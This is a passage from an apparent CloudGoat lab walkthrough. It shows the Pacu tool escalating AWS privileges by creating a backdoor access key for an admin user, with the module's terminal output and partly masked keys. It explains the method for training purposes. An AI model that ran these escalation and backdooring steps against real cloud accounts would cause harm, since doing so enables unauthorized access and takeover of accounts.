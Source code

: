 Pacu managed to find a confirmed method to privilege escalate, which is via ```CreateAccessKey```
In real life engagement, we might not want to let Pacu to proceed directly to the act of privilege escalation, hence when running the module, we can add ```--scan-only``` to end of the command so that the module stop after scan.

But for our case, we continue the privilege escalation action

```
[iam__privesc_scan]   Starting method CreateAccessKey...

[iam__privesc_scan]     Is there a specific user you want to target? They must not already have two sets of access keys created for their user. Enter their user name now or just hit enter to enumerate users and view a list of options: 
[iam__privesc_scan] Data (IAM > Users) not found, run module "iam__enum_users_roles_policies_groups" to fetch it? (y/n) ==y==
[iam__privesc_scan]   Running module iam__enum_users_roles_policies_groups...
[iam__enum_users_roles_policies_groups] Found 5 users
[iam__enum_users_roles_policies_groups] iam__enum_users_roles_policies_groups completed.

[iam__enum_users_roles_policies_groups] MODULE SUMMARY:

  4 Users Enumerated
  IAM resources saved in Pacu database.

[iam__privesc_scan] Found 4 user(s). Choose a user below.
[iam__privesc_scan]   [0] Other (Manually enter user name)
[iam__privesc_scan]   [1] cgidkklcl54ir4_admin_user
[iam__privesc_scan]   [2] cgidkklcl54ir4_low_priv_user
[iam__privesc_scan]   [3] cgidkklcl54ir4_low_priv_user
[iam__privesc_scan]   [4] cloudgoat

[iam__privesc_scan] Choose an option: ==1==
[iam__privesc_scan]   Running module iam__backdoor_users_keys...
[iam__backdoor_users_keys] Backdoor the following users?
[iam__backdoor_users_keys]   cgidkklcl54ir4_admin_user
[iam__backdoor_users_keys]     Access Key ID: AKIAYK******************
[iam__backdoor_users_keys]     Secret Key: KJr+NwAyPcI******************
[iam__backdoor_users_keys] iam__backdoor_users_keys completed.

[iam__backdoor_users_keys] MODULE SUMMARY:

  1 user key(s) successfully backdoored.


[iam__privesc_scan] iam__privesc_scan completed.

[iam__privesc_scan] MODULE SUMMARY:

  Privilege escalation was successful
```
We managed to create a second access key for the admin user and Pacu provided us with the newly created access key and secrets for the admin user.
In AWS, each account can have 2 sets of credentials, but before we create the new access key, the admin user only has one set of credentials which enable us to succeed in this scenario.
If the admin user already 2 sets of credentials, this privilege escalation will fail
